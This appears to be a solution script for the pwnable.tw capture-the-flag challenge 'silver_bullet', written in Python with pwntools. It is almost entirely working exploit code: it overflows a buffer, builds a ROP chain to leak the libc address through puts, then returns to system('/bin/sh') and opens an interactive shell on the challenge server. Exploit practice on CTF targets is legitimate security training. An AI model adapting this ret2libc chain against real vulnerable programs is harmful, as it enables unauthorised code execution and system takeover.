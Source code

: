 ```python

def create_overflow(io):
    create_bullet(io,b"a"*47)
    power_up(io, b"a")

def leak_libc(io,_bin):
    create_overflow(io)
    #gdb.attach(io,gdbscript=gdb_scripts(_bin))
    #sleep(1)
    payload = p32(0xffffffff) + b"aaa"
    _rop = ROP([])
    _rop.raw(p32(_bin.plt["puts"]))
    # return to main after leaking libc
    _rop.raw(p32(_bin.symbols["main"]))
    _rop.raw(p32(_bin.got["puts"]))
    payload += _rop.chain()
    power_up(io,payload)
    choice(io,3)
    io.recvuntil(b"Oh ! You win !!\n")
    return u32(io.recvline()[:4])

def ret2system(io,libc):
    create_overflow(io)
    payload = p32(0xffffffff) + b"aaa"
    binsh = next(libc.search(b"/bin/sh\00"))
    _rop = ROP([])
    _rop.raw(libc.symbols["system"])
    _rop.raw(binsh)
    _rop.raw(binsh)
    payload += _rop.chain()
    power_up(io,payload)
    choice(io,3)
    
DEBUG = False

if __name__ == '__main__':
    if DEBUG:
        io = process("./silver_bullet")
    else:
        io = remote("chall.pwnable.tw",10103)
    
    _bin = ELF("./silver_bullet")
    libc = ELF("./libc_32.so.6")
    _rop = ROP(_bin)
    libc.address = leak_libc(io,_bin) - libc.symbols["puts"]
    print(f"libc leaked at : {hex(libc.address)}")
    # ret2libc
    ret2system(io,libc)
    io.interactive()
```

